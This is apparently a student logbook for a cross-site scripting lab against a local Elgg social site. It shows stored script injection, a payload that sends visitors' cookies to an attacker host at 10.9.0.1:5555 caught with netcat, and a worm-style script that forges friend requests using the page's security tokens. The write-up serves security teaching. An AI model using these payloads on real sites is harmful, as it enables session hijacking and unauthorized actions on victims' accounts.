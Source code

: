 # Log Book 10

## Environment Setup

We successfuly changed the hosts file and ran the server using the `docker-compose` commands.

## Task 1

For this task we want to inject a script into our profile.
We achieved this by posting the following script into our description:

```html
<script>
  console.log("hello");
</script>
```

We will be using `console.log` instead of `alert` to display the required information because
our firefox version blocks all pop-up windows.  
When any user visits our profile, the following message is displayed.

![Task1_Result](LOGBOOK10_img/task1.png)

## Task 2

By changing the description to the following script, we can see the user's cookies.

```
<script>console.log(document.cookie);</script>
```

As can be seen in the picture bellow

![Task2_Result](LOGBOOK10_img/task2.png)

## Task 3

In this task we want to be able to send the user's cookies to a server that belongs
to us, the attacker. In the script bellow, we imbed the cookies that we want to send
in a request that will be made to the attacker's machine

```
<script>
document.write("<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >");
</script>
```

We use the netcat command line tool to listen for any requests made from users that
visited our profile. These requests contain the user's cookies, as can be seen bellow:

![Task3_Result](LOGBOOK10_img/task3.png)

## Task 4

The objective of this task is to write a worm that adds Samy to a user's friend
list when that user visits Samy's profile.

We can add Samy as a friend normally, and with the extension _HTTP Header Live_,
we can find how a friend HTTP request is encoded:

![Task4_Request](LOGBOOK10_img/task4_request.png)

Using this information, we can create a script that, when executed, forges a request
that adds Samy as a friend to the logged in user.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Similar to the previous tasks, we place this script in our description so that it
will be executed by a user when he enters our profile.

### Example

1. We are logged in as Alice, as can be seen we only have Charlie as our friend.

![Task4_AliceProfile](LOGBOOK10_img/task4_alice_profile.png)

2. When we visit Samy's profile, our script sends a forged friend request.

![Task4_Request](LOGBOOK10_img/task4_request.png)

- We can see that the script was successful, as now we can remove him Samy as a friend.

![Task4_SamyProfile](LOGBOOK10_img/task4_samy_profile.png)

3. When we visit our profile, we can see that we Samy is now our friend.

![Task4_SamyProfileAfterFriend](LOGBOOK10_img/task4_alice_profile_after_friend.png)
